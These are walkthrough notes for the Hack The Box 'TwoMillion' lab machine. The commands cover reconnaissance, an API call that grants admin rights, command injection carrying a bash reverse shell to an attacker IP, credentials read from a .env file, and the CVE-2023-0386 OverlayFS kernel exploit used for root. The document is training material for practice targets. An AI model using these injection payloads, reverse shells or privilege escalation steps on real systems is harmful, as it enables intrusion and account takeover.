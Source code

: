 # 🎯 HTB: TwoMillion – Command Notes

## 🔍 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.10.11
nmap -p 22,80 -sCV 10.10.10.11
```

### Host File Entry
```bash
echo "10.10.10.11 2million.htb" | sudo tee -a /etc/hosts
```

### FFUF – Subdomain Enumeration
```bash
ffuf -u http://10.10.10.11 -H "Host: FUZZ.2million.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -mc all -ac
```

### Feroxbuster – Directory Brute Force
```bash
feroxbuster -u http://2million.htb
```

---

## 🎟️ Invite Code Challenge

### ROT13 Decode (CLI)
```bash
curl -s -X POST http://2million.htb/api/v1/invite/how/to/generate | jq -r '.data.data' | tr 'a-zA-Z' 'n-za-mN-ZA-M'
```

### Generate Invite Code
```bash
curl -X POST http://2million.htb/api/v1/invite/generate -s | jq .data.code | xargs echo | base64 -d
```

---

## 🔐 Login & API Enumeration

### Get API Description
```bash
curl -s http://2million.htb/api/v1 | jq .
```

---

## 👮 Admin Privilege Escalation via API

### Gain Admin Privs
```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update \
-H "Content-Type: application/json" \
-d '{"email":"<your_email>", "is_admin":1}' \
-b cookies.txt
```

### Confirm Admin
```bash
curl -s http://2million.htb/api/v1/admin/auth -b cookies.txt
```

---

## 💥 Command Injection (Admin VPN API)

### Basic Test
```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
-H "Content-Type: application/json" \
-d '{"username":"test; id #"}' -b cookies.txt
```

### Reverse Shell
```bash
# Listener
nc -lnvp 443

# Trigger
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
-H "Content-Type: application/json" \
-d '{"username":"; bash -c \"bash -i >& /dev/tcp/<your_ip>/443 0>&1\" #"}' \
-b cookies.txt
```

---

## 🧑‍💻 Shell as `admin`

### Credential in .env
```bash
cat /var/www/html/.env
# admin : SuperDuperPass123
```

### SSH / su as admin
```bash
su - admin
# or
sshpass -p 'SuperDuperPass123' ssh admin@2million.htb
```

---

## 🧑‍🔬 Privilege Escalation to root

### Kernel Info
```bash
uname -a
cat /etc/lsb-release
```

### Vulnerability: CVE-2023-0386 (OverlayFS)
Exploit repo: https://github.com/xkaneiki/CVE-2023-0386

### Steps
```bash
# Upload & unzip
scp CVE-2023-0386-main.zip admin@2million.htb:/tmp/
unzip CVE-2023-0386-main.zip && cd CVE-2023-0386-main

# Build
make all

# Start fuse script in terminal 1
./fuse ./ovlcap/lower ./gc

# Run exploit in terminal 2
./exp
```

If successful:
```bash
whoami
# root
```

---

## 📦 Beyond Root – Decode `thank_you.json`

### Decode Steps (CyberChef or CLI)
1. URL Decode
2. From Hex
3. From Base64
4. XOR with key: `HackTheBox`
